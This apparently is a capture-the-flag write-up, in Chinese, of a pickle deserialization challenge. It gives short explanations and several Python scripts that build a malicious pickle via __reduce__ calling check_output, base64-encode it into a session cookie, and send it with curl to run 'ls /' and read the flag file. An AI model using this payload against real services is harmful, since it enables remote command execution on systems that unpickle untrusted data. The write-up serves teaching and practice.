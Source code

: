 ```python

serialized = pickle.dumps({'name': exp(), 'age': 1})
print(pickle.loads(serialized))
```
![](assets/1-3.png)
因此這題只要送一個含有 cookie 的 request\
session 值為上述含有 ```__reduce__``` 的 class 被序列化後再經過 base64 encode 的值即可\
由於要把 ls 的輸出放在 key 為 'name' 的 value 裡，而 system 不會回傳輸出結果\
check_output 會回傳輸出結果，所以改為使用 check_output\
撰寫腳本，用 curl 送 request，並將 session 值設為序列化後再經過 base64 encode 的值
```python
import pickle
from subprocess import check_output
from base64 import b64encode
from os import popen

class exp:
    def __reduce__(self):
        return (check_output, (['ls', '/'],))

session = b64encode(pickle.dumps({'name': exp(), 'age': 1}))
output = popen("curl http://h4ck3r.quest:8600/ --cookie 'session=" \
+ session.decode() + "'").read()
print(output.replace('\\n', '\n'))
```
![](assets/1-5.png)
得知 flag 檔案為根目錄中的 flag_5fb2acebf1d0c558 檔案
```python
import pickle
from subprocess import check_output
from base64 import b64encode
from os import popen

class exp:
    def __reduce__(self):
        return (check_output, (['cat', '/flag_5fb2acebf1d0c558'],))

session = b64encode(pickle.dumps({'name': exp(), 'age': 1}))
output = popen("curl http://h4ck3r.quest:8600/ --cookie 'session=" \
+ session.decode() + "'").read()
print(output)
```
![](assets/1-6.png)